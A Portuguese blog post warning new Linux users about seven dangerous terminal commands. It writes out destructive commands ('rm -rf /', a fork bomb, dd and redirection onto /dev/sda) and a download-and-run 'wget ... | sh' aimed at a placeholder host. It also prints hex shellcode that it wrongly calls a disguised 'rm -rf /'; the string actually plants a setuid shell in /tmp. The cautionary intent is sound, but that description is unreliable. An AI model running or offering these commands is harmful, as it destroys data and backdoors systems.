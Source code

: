 ```yaml
---
title: "7 Comandos perigosos."
author: "Nilsonlinux"
output:
 html_document:
   toc: true
   keep_md: yes
categories: Terminal
layout: post
featured_image: /images/linux/7-comandos-danger.png
---
```




## 7 comandos perigosos do Linux que você NUNCA deve executar  ##

Como o número de usuários leigos de Linux vem aumentando com o tempo, acho pertinente alertar as pessoas sobre alguns comandos que podem ser perigosos, tanto para o sistema, quanto para os dados contidos no computador. 

Como o número de usuários leigos de Linux vem aumentando com o tempo, acho pertinente alertar as pessoas sobre alguns comandos que podem ser perigosos, tanto para o sistema, quanto para os dados contidos no computador.

O terminal é uma ferramenta muito poderosa, por conta disso é bom você dominá-lo, ou pelo menos entendê-lo, para evitar problemas no seu sistema baseado em Linux.
 Os grandes problemas que você pode enfrentar usando o terminal de forma indiscriminada normalmente estão atrelados a comandos de sobrescrita de dados, então vamos mostrar alguns aqui que você deve prestar especial atenção quando vir alguém sugerindo que você faça no seu computador com Linux.

Atenção: Você NÃO deve executar nenhum destes comandos no seu computador, isso pode causar danos irreversíveis que nós não nos responsabilizamos, o artigo tem a intenção de ser instrutivo, justamente para evitar este tipo de situação.

1 - ```rm -rf```

É um comando clássico do do Linux que teoricamente não faz nada de mais, ele serve apenas para apagar arquivos, e é aí que mora o perigo. Dependendo da forma que ele for aplicativo o resultado pode ser muito desagradável, por isso é importante você entender o que os comandos fazem, vamos explicar um pouco melhor neste exemplo:
- rm: comando usado no Linux para deletar arquivos.
- rm -r: o comando deleta pastas recursivamente, mesmo que a pastas esteja vazia.
- rm -f: cUsando este parâmetro, o propriedade de "apenas leitura" que um arquivo tenha é removida sem perguntar, permitindo que o arquivo seja apagado.
- rm -rf / : Usando a combinação dos dois parâmetros com a "/" você diz para o sistema apagar tudo que está no diretório raiz do sistema.
- rm -rf * : Força o apagamento de tudo que está no diretório atual ou no de trabalho, dependendo de onde você estiver.
- rm -rf . : Acrescentando um ponto, você pode apagar também as pastas ocultas, além das normais.

Tome muito cuidado ao executar um comando destes, especialmente se for feito como root ou usando o sudo.

 Tão perigoso que pode ser este comando, que atualmente o Linux se protege contra ele, se você rodá-lo, mesmo com sudo ou como root, ele não vai funcionar, para isso é preciso usar os parâmetros descritos na imagem acima. Da mesma forma que o Linux protege você de destruir o sistema sem querer, ele também permite que você o destrua mediante a ter certeza de que é realmente isso que você quer, curioso, não é?

2 - ```:(){:|:&};:```

Este comando funciona como uma "Fork Bomb", ele opera definindo uma função chamada ':', que se chama duas vezes, uma vez em primeiro plano e outra em segundo plano, o processo se repete indefinidamente até que o sistema trave.

3 - qualquer comando para > /dev/sda

A forma com que o Linux lê as partições e discos é diferente do Windows, por conta disso, normalmente novatos não conseguem entender em primeira instância como eles são distribuídos. Normalmente a localização dos dispositivos de armazenamento do sistema ficam dentro de /dev, sendo que podem haver vários por ali e normalmente o sda está presente.

O problema do comando acima é que ele redireciona a saída de qualquer comando que seja colocado para o seu bloco de armazenamento, desta foma sobrescrevendo alguns dados e corrompendo outros.

4 - ```mv pasta/diretório /dev/null```

Eu costumava brincar sobre o /dev/null me referindo a ele como o "buraco negro" do Linux. Tudo que é enviado para ele é perdido "para sempre". Então tome cuidado ao mover qualquer coisa para esta localização. O comando mv serve para mover arquivos ou diretórios para o destino indicado, se este destino for o /dev/null você estará mandando seus arquivos pra Nárnia.

5 - ```wget http://malicious_source -O- | sh```

Este comando vai aparecer para você instalar alguns programas. O wget é o programa responsável por fazer o download da URL que vem logo após, ele é bem útil para baixar arquivos em geral, o problema está no arquivo que ele baixa e na sequência do comando  que o executa no caso dele ser um shell script. Só baixe arquivos desta forma de fontes que você considera confiáveis e se estiver na dúvida, baixe apenas o arquivo de shell, eliminando qualquer parâmetro que apareça após o link, assim você pode abrir ele em um editor de texto de sua preferência e verificar o que há dentro dele.

6 - ```dd if=/dev/random of=/dev/sda```

Assim como o ítem 3 da nossa lista, o grande problema aqui é o destino ser o /dev/sda. Tome cuidado. O comando dd pode ser muito útil para copiar arquivos e até mesmo partições inteiras, como no exemplo 6, mas se a saída for um outro disco, tome cuidado, pois o resultado irá sobrepor os dados lá existentes.

7 - Comandos disfarçados

Como eu comentei à princípio, o terminal é uma ferramenta poderosa, se você não dominá-lo, é bom ter cuidado com que você for rodar nele, se o você não fala a língua do terminal, saiba que ele fala muitas outras. O comando abaixo nada mais é do que o comando indicado no primeiro item da nossa lista, só que em forma hexadecimal.

    char esp[] __attribute__ ((section(“.text”))) /* e.s.p release */ = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″ “\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″ “\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″ “\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″ “\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″ “\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″ “\x6e\x2f\x73\x68\x00\x2d\x63\x00″ “cp -p /bin/sh /tmp/.beyond; chmod 4755 /tmp/.beyond;”;


Ele tem o mesmo propósito do famigerado "rm -rf /", por isso, não rode coisas no terminal que você não sabe para quem servem, existem muito conteúdo grátis a internet para você estudar sobre e até mesmo alguns bons cursos pagos, como é o caso do "Dominando o Terminal" aqui do blog mesmo, mas em linhas gerais, se você evitar colocar comandos que você não sabe para que servem direito, os problemas já serão minimizados. 

Agora espalhe este conhecimento para ajudar mais pessoas a ficarem precavidas sobre estes pequenos percalços da vida computacional.

Fonte; https://www.diolinux.com.br/2017/01/7-comandos-mais-perigosos-linux.html